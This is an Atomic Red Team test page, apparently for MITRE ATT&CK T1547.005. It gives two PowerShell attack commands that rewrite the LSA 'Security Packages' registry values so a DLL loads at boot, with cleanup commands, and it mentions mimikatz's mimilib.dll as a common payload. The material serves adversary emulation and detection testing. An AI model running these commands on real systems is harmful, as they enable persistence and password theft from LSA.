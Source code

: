 ```yaml
---
tags: [T1547_005, atomic_test]
filename: "[[T1547.005|T1547.005 - Boot or Logon Autostart Execution: Security Support Provider]]"
---
```


# T1547.005 - Boot or Logon Autostart Execution: Security Support Provider
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/005)
<blockquote>Adversaries may abuse security support providers (SSPs) to execute DLLs when the system boots. Windows SSP DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

The SSP configuration is stored in two Registry keys: <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages</code> and <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages</code>. An adversary may modify these Registry keys to add new SSPs, which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called.(Citation: Graeber 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify HKLM:\System\CurrentControlSet\Control\Lsa Security Support Provider configuration in registry](#atomic-test-1---modify-hklmsystemcurrentcontrolsetcontrollsa-security-support-provider-configuration-in-registry)

- [Atomic Test #2 - Modify HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig Security Support Provider configuration in registry](#atomic-test-2---modify-hklmsystemcurrentcontrolsetcontrollsaosconfig-security-support-provider-configuration-in-registry)


<br/>

## Atomic Test #1 - Modify HKLM:\System\CurrentControlSet\Control\Lsa Security Support Provider configuration in registry
Add a value to a Windows registry Security Support Provider pointing to a payload .dll which will normally need to be copied in the system32 folder.
A common DLL used with this techquite is the minilib.dll from mimikatz, see https://pentestlab.blog/2019/10/21/persistence-security-support-provider/

**Supported Platforms:** Windows


**auto_generated_guid:** afdfd7e3-8a0b-409f-85f7-886fdf249c9e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old';
```





<br/>
<br/>

## Atomic Test #2 - Modify HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig Security Support Provider configuration in registry
Add a value to a Windows registry SSP key, simulating an adversarial modification of those keys.

**Supported Platforms:** Windows


**auto_generated_guid:** de3f8e74-3351-4fdb-a442-265dbf231738






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old';
```





<br/>

